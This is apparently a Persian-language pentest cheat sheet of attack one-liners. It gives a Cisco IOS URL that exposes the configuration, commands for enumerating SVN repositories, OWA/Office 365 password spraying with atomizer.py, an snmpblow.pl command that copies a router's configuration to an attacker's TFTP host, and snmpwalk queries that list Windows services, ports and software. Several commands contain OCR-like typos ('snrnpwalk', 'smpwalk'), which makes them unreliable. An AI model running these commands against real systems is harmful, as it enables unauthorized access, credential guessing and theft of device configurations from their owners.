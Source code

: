 
### آسیب پذیری های  IOS 11.2-12.2 

```text
http:// ip /level/ 16-99 /exec/show/config
```

## SVN

لیست فایل ها و فولدر ها

```text
svn list svn://10.10.10.10/Empty/
```

گزارش های فعالیت ها

```text
svn log svn://10.10.10.10/
```

لیست تغییرات

```text
svn diff -c r2 svn://10.10.10.10
```


## حدس کلمه عبور OVA, O365, skype business

```text
python3 atomizer.py owa 10.10.10.10 pass.txt user.txt -i 0:0:01
```

## پروتکل SNMP

نیاز به شروع سرویس tftp

```text
./snmpblow.pl -s srcip -d rtr_ip -t attackerip -f out.txt
snmpstrings.txt
```

### لیست سرویس های اجرایی ویندوز  

```text
snrnpwalk -c public -v1 ip 1 | grep hrSWRJnName | cut -d" " -f4
```

### پورت های باز ویندوز

```text
smpwalk | grep tcpConnState | cut -d" " -f6 | sort -u
```

### نرم افزار های نصب شده

```text
smpwalk | grep hrSWinstalledName
```
